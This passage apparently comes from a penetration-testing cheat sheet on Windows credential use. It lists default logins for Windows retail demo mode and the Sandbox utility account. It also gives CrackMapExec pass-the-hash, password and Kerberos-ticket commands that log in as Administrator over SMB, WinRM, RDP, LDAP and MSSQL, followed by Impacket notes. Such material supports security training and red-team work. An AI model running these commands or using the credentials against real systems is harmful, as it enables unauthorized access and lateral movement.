 ```powershell
Username: RetailAdmin
Password: trs10
```

### Sandbox Credential

WDAGUtilityAccount - [@never_released on Twitter](https://twitter.com/never_released/status/1081569133844676608)

Starting with Windows 10 version 1709 (Fall Creators Update), it is part of Windows Defender Application Guard

```powershell
\\windowssandbox
Username: wdagutilityaccount
Password: pw123
```

## Crackmapexec

Using [Porchetta-Industries/CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)

- CrackMapExec supports many protocols
    
    ```powershell
    crackmapexec ldap 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0" 
    crackmapexec mssql 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
    crackmapexec rdp 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0" 
    crackmapexec smb 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
    crackmapexec winrm 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
    ```
    
- CrackMapExec works with password, NT hash and Kerberos authentication
    
    ```powershell
    crackmapexec smb 192.168.1.100 -u Administrator -p "Password123?" # Password
    crackmapexec smb 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0" # NT Hash
    export KRB5CCNAME=/tmp/kerberos/admin.ccache; crackmapexec smb 192.168.1.100 -u admin --use-kcache # Kerberos
    ```
    

## Impacket

From [fortra/impacket](https://github.com/fortra/impacket) (:warning: renamed to impacket-xxxxx in Kali)
:warning: `get` / `put` for wmiexec, psexec, smbexec, and dcomexec are changing to `lget` and `lput`.
:warning: French characters might not be correctly displayed on your output, use `-codec ibm850` to fix this.
:warning: By default, Impacket's scripts are stored in the examples folder: `impacket/examples/psexec.py`.

All Impacket's *exec scripts are not equal, they will target services hosted on multiples ports.
The following table summarize the port used by each scripts.
